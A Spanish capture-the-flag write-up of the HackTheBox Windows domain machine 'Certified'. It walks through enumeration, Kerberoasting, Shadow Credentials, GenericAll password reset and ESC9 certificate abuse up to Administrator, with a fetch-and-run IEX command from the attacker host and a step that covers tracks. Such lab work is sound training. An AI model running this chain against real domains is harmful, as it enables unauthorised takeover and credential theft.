# Certified

<figure><figcaption></figcaption></figure>

## Reconnaissance

Proceremos a realizar un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Certified**.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.41 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX.


```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49681,49716,49740,49775 10.10.11.41 -A -oN targeted -oX targetedXML
```


<figure><figcaption></figcaption></figure>

Transformaremos el archivo XML obtenido en el resultado de **nmap** y lo transformaremos en un archivo HTML. Levantaremos un servidor HTTP con Python3.

```bash
xsltproc targetedXML > index.html

python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

Accederemos a[ http://localhost](http://localhost) y comprobaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio que nos enfrentamos, el nombre del equipo y que tipo de máquina nos enfrentamos.

```bash
ldapsearch -x -H ldap://10.10.11.41 -s base | grep defaultNamingContext

netexec smb 10.10.11.41
```

<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep certified.htb
```

<figure><figcaption></figcaption></figure>

## RPC Enumeration

Debido que disponemos de credenciales de un usuario del dominio que nos aporta _HackTheBox_, procederemos a realizar una enumeración a través del protocolo RPC con la herramienta [**rpcenum**](https://github.com/s4vitar/rpcenum).

Verificamos que hemos procedido a enumerar la lista de usuarios que se encuentran en el dominio de **certified.htb**.

```bash
rpcenum -e All -i 10.10.11.41 -u 'judith.mader' -p 'judith09'
```

<figure><figcaption></figcaption></figure>

Guardaremos los usuarios del dominio enumerados en el archivo **users.txt.**

```bash
catnp users.txt
```

<figure><figcaption></figcaption></figure>


## AS-REP Roast Attack (GetNPUsers) - \[FAILED]

Debido que disponemos de una lista potencial de usuarios, probaremos a realizar un **AS-REP Roast Attack** para intentar obtener un Ticket Granting Ticket (TGT) para luego crackearlo de manera offline.

Comprobamos que no obtenemos ningún TGT debido que ningun usuario dispone del atributo (DONT\_REQ\_PREAUTH) de Kerberos.

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt certified.htb/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

## SMB Enumeration \[FAILED]

A través de la herramienta de **sbmap** procederemos a enumerar los recursos compartidos. En este caso, ningún recurso compartido parece tener alguna información interesante.

```bash
smbmap -H 10.10.11.41 --no-banner -u 'judith.mader' -p 'judith09'
```

<figure><figcaption></figcaption></figure>

## Kerberoasting Attack (GetUserSPNs)

Ya que disponemos de credenciales de un usuario del dominio válidas, probaremos de realizar un **Kerberoasting Attack** para intentar obtener un Ticket Granting Service (TGS), comprobamos que obtenemos un TGS del usuario "management\_svc".


```bash
impacket-GetUserSPNs -dc-ip 10.10.11.41 certified.htb/judith.mader -request 2>/dev/null
```


<figure><figcaption></figcaption></figure>

## Cracking hashes \[FAILED]

Procederemos a intentar crackear el hash obtenido del TGS para obtener la contraseña del usuario en cuestión. En este caso, comprobamos que no hemos sido capaces de crackear el hash, lo cual indica que la contraseña no se encuentra en el diccionario utilizado "rockyou.txt".

```bash
hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

## LDAP Enumeration (ldapdomaindump)

Con **ldapdomaindump** dumpearemos toda la información del LDAP a través del usuario y contraseña que disponemos. Nos generará los resultados en distintos formatos.

```bash
ldapdomaindump -u 'certified.htb\judith.mader' -p 'judith09' 10.10.11.41 -o ldap
```

<figure><figcaption></figcaption></figure>

Revisando el archivo "domain\_users.html" verificamos que el usuario "management\_svc" forma parte del grupo "Remote Management Users", con el cual podríamos conectarnos al DC a través de WinRM, PsExec, etc.

Este es el usuario que hemos obtenido el TGS (Ticket Granting Service) pero no hemos podido crackear su hash.

<figure><figcaption></figcaption></figure>

## BloodHound Enumeration

Realizaremos una enumeración con **BloodHound** a través de **bloodhound-python.**


```bash
bloodhound-python -c all -u judith.mader -p 'judith09' -d certified.htb -ns 10.10.11.41
```


<figure><figcaption></figcaption></figure>

### Abusing WriteOwner Privilege (bloodyAD)

Revisando **BloodHound** para buscar una vía potencial de escalar nuestros privilegios, nos damos cuenta que el usuario que tenemos (judith.mader@certified.htb) dispone de permisos "WriteOwner" sobre el grupo "management@certified.htb", con el cual podríamos hacernos propietario de este grupo y añadirnos debido que los miembros de este grupo disponen del privilegio de "GenericWrite" sobre el usuario (management\_svc@certified.htb) con el cual podríamos llegar a realizar posteriormente otro ataque.

Esto puede ser intersante para realizar un **Lateral Movement** y realizar posteriormente un **Shadow Credentials Attack**.

<figure><figcaption></figcaption></figure>

A través de la herramienta de **bloodyAD**, procederemos a establecer al usuario "judith.mader" como propietaria del grupo "management@certified.htb".

Seguidamente procederemos a otorgarnos permisos de **genericAll** sobre el grupo "management@certified.htb" y posteriormente añadirnos como miembros de dicho grupo.


```bash
bloodyAD --host 10.10.11.41 -d certified.htb -u judith.mader -p 'judith09' set owner 'Management' judith.mader

bloodyAD --host 10.10.11.41 -d certified.htb -u judith.mader -p 'judith09' add genericAll 'Management' judith.mader

net rpc group addmem "Management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
```


<figure><figcaption></figcaption></figure>

### Abusing GenericWrite Privilege - Shadow Credentials Attack (pyWhisker.py)

Ya que ahora el usuario que disponemos "judith.mader@certified.htb" forma parte del grupo "management@certified.htb" y los miembros de este disponen del privilegio de **GenericWrite**, podemos probar de realizar un **Shadow Credentials Attack** para obtener el hash NTM del usuario "management\_svc@certified.htb".

Verificamos que al realizar el ataque, obtenemos un archivo **.PFX** y unas credenciales para el archivo en cuestión.


```bash
python3 /opt/pywhisker/pywhisker/pywhisker.py --dc-ip 10.10.11.41 -d "certified.htb" -u "judith.mader" -p "judith09" --target "MANAGEMENT_SVC" --action "add"
```


<figure><figcaption></figcaption></figure>

### unPAC the hash (gettgtpkinit.py && getnthash.py)

A continuación, deberemos de realizar un **unPAC the hash** para obtener el hash NTLM del usuario al cual le hemos realizado el **Shadow Credentials Attack**.

A través del siguiente comando, procederemos a obtener el TGT (Ticket Granting Ticket) utilizando el el certificado **.PFX** obtenido. Verificamos que nos genera un TGT en el archivo llamado **.ccache**.


```bash
python /opt/PKINITtools/gettgtpkinit.py -dc-ip 10.10.11.41 certified.htb/MANAGEMENT_SVC -cert-pfx 3r6awZCj.pfx -pfx-pass YKnNhAzfknFJOWoLIcdS MANAGEMENT_SVC.ccache
```


<figure><figcaption></figcaption></figure>

Una vez con el TGT generado, procederemos a extraer el hash NTLM del usuario objetivo. Verificamos que hemos conseguido el hash NTLM del usuario "management\_svc@certified.htb".


```bash
python /opt/PKINITtools/getnthash.py -dc-ip 10.10.11.41 certified.htb/MANAGEMENT_SVC -key 24e19988d8b8503066217b378c54975abc8bbbb55394817a1bcd4667eb3991fa 2>/dev/null
```


<figure><figcaption></figcaption></figure>

## Initial Access

### Validating the obtained NTLM hash

Procederemos a validar el hash NTLM obtenido del usuario "management\_svc@certified.htb" para comprobar que es válido.

```bash
netexec winrm 10.10.11.41 -u 'MANAGEMENT_SVC' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

<figure><figcaption></figcaption></figure>

### Abusing WinRM

Una vez validado que podemos autenticarnos con el hash NTLm del usuario en cuestión y que hayamos comprobado que anteriormente con este usuario disponía de permisos para conectarse de manera remota, procederemos a acceder al WinRM a través de **evil-winrm**.

Verificaremos la flag de **user.txt**.

```bash
evil-winrm -i 10.10.11.41 -u 'MANAGEMENT_SVC' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### DC Enumeration (adPEAS) - Powershell tool to automate Active Directory enumeration

Procederemos de realizar una enumeración del AD a través de la herramienta **adPEAS.ps1** que es un script de Powershell (parecido a winPEAS) pero en vez de buscar malas configuraciones de Windows, hace exactamente lo mismo pero en el entorno del AD.

Nos lo descargaremos en nuestra Kali, levantaremos un servidor web con Pyton y a través de IEX en el equipo Windows, lo importaremos en memoria.

```bash
wget https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1

python3 -m http.server 80

IEX (New-Object Net.WebClient).downloadString("http://10.10.14.19/adPEAS.ps1")

Invoke-adPEAS
```

<figure><figcaption></figcaption></figure>

Dentro del resultado del análisis nos encuentra información sobre _Active Directory Certificate Services_ en el cual nos reporta de posiblemente sea vulnerable pero es manegada por el usuario "ca\_operator@certified.htb".

<figure><figcaption></figcaption></figure>

### Abusing GenericAll Privilege (Changing user credentials from Powershell)

Revisando nuevamente el **BloodHound**, comprobamos que el usuario "management\_svc@certified.htb" dispone de privilegios de **GenericAll** sobre el usuario "ca\_operator@certified.htb".

<figure><figcaption></figcaption></figure>

Teniendo estos permisos, podemos a llegar a cambiar las credenciales sobre el usuario "ca\_operator@certified.htb".

<figure><figcaption></figcaption></figure>

El propio **BloodHound** nos indica como podemos llegar a explotar este privilegio. En este caso, debido que disponemos del acceso a la máquina Windows, podemos realizar el "Windows Abuse".

<figure><figcaption></figcaption></figure>

Procederemos a realizar las credenciales del usuario "CA\_OPERATOR" desde la sesión de "management\_svc@certified.htb" que disponemos en WinRM.

```powershell
$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity CA_OPERATOR -AccountPassword $UserPassword
```

<figure><figcaption></figcaption></figure>

Procederemos a validar que se han modificado correctamente las credenciales del usuario en cuestión.

```bash
netexec smb 10.10.11.41 -u 'CA_OPERATOR' -p 'Gzzcoo123'
```

<figure><figcaption></figcaption></figure>

### Abusing Advice Directory Certificate Services (ADCS) <a href="#abusing-advice-directory-certificate-services-adcs" id="abusing-advice-directory-certificate-services-adcs"></a>

ADCS es el rol que maneja la emisión de certificados para usuarios, equipos y servicios en la red de Active Directory. Este servicio, si está mal configurado, puede presentar vulnerabilidades que los atacantes podrían explotar para elevar privilegios o acceder a información sensible.

Algunas de las posibles vulnerabilidades que puede tener ADCS son:

1. **Delegación de privilegios en la emisión de certificados**: Si ciertos usuarios tienen permisos para emitir certificados para otros, un atacante podría abusar de estos privilegios para obtener permisos elevados.
2. **Mala configuración en las plantillas de certificados**: Configuraciones incorrectas en las plantillas de certificados podrían permitir que un atacante solicite un certificado en nombre de otro usuario, incluso uno con privilegios elevados.
3. **NTLM Relaying en HTTP**: Si el ADCS acepta autenticación NTLM en lugar de Kerberos, un atacante podría redirigir las solicitudes para ganar acceso.

### ESC9 exploitation case with certipy-ad

Al ejecutar este comando, **Certipy** escanea el entorno de Active Directory en busca de configuraciones vulnerables dentro de los servicios de ADCS. Este análisis incluye verificar permisos delegados indebidos y configuraciones inseguras en la CA. Durante la ejecución, se identificó una vulnerabilidad clasificada como **ESC9**.

La vulnerabildiad es sobre el CA "certified-DC01-CA" y el Template "CertifiedAuthentication".

La vulnerabilidad ESC9 en ADCS se produce debido a la delegación indebida de permisos sobre la Entidad de Certificación (CA). Específicamente, el permiso **ManageCA** permite que usuarios con privilegios limitados puedan realizar acciones administrativas como:

* Emitir certificados arbitrarios para cualquier cuenta, incluyendo cuentas privilegiadas como `Administrator`.
* Modificar configuraciones críticas de la CA, afectando su comportamiento o aumentando el riesgo de abuso.

En resumen, **ESC9** permite a un atacante aprovechar permisos mal configurados para obtener acceso privilegiado dentro del dominio mediante el abuso de certificados.

Para consultar cómo funciona **Certipy** y los detalles sobre esta vulnerabilidad, se puede revisar la siguiente página -> [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)


```bash
certipy-ad find -u CA_OPERATOR@certified.htb -p 'Gzzcoo123' -dc-ip 10.10.11.41 -vulnerable -stdout
```


<figure><figcaption></figcaption></figure>

En este caso, disponemos de que el usuario "management\_svc@certified.htb" dispone de permisos de **GenericWrite** sobre el usuario "ca\_operator@certified.htb".

Por lo tanto, podemos realizar un **Shadow Credentials Attack** desde Certipy-AD. Este paso lo podríamos llegar a omitir debido que en los pasos anteriores ya hemos conseguido las credenciales del usuario "CA\_OPERATOR" debido que le hemos cambiado sus credenciales.

Una vez obtenido del hash del usuario "ca\_operator@certified.htb" procederemos a validar el hash NTLM obtenido.


```bash
certipy-ad shadow auto -username MANAGEMENT_SVC@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -account CA_OPERATOR

netexec smb 10.10.11.41 -u 'CA_OPERATOR' -H '613a519b5b0ef57c07bc6395aa1aff14'
```


<figure><figcaption></figcaption></figure>

Utilizamos Certipy para actualizar el UPN de la cuenta **CA\_OPERATOR**, asignándole el valor de **Administrator**. Esto nos permite asociar cualquier certificado emitido a **CA\_OPERATOR** con la identidad de **Administrator**:


```bash
certipy-ad account update -username MANAGEMENT_SVC@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user CA_OPERATOR -upn administrator
```


<figure><figcaption></figcaption></figure>

Solicitamos un certificado utilizando la plantilla vulnerable **CertifiedAuthentication**. Este certificado se emitió con el UPN de **Administrator**, habilitando su uso para autenticación con privilegios elevados:


```bash
certipy-ad req -username CA_OPERATOR@certified.htb -hashes 613a519b5b0ef57c07bc6395aa1aff14 -dc-ip 10.10.11.41 -ca certified-DC01-CA -template CertifiedAuthentication
```


<figure><figcaption></figcaption></figure>

Posteriormente, restauramos el UPN de **CA\_OPERATOR** a su valor original para minimizar evidencias de la modificación realizada.

Seguidamente utilizamos el certificado emitido para autenticarnos y verificamos que obtenemos el hash NTLM del usuario "Administrator".


```bash
certipy-ad account update -username MANAGEMENT_SVC@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user CA_OPERATOR -upn CA_OPERATOR@certified.htb

certipy-ad auth -pfx administrator.pfx -domain certified.htb
```


<figure><figcaption></figcaption></figure>

Obtenido el hash NTLM, procederemos a validar las credenciales a través de **netexec** y una vez verificado que son credenciales correctas, procederemos a autenticarnos a través de **evil-winrm**.

Obtenemos la flag de **root.txt**.

```bash
netexec smb 10.10.11.41 -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'

evil-winrm -i 10.10.11.41 -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'
```

<figure><figcaption></figcaption></figure>
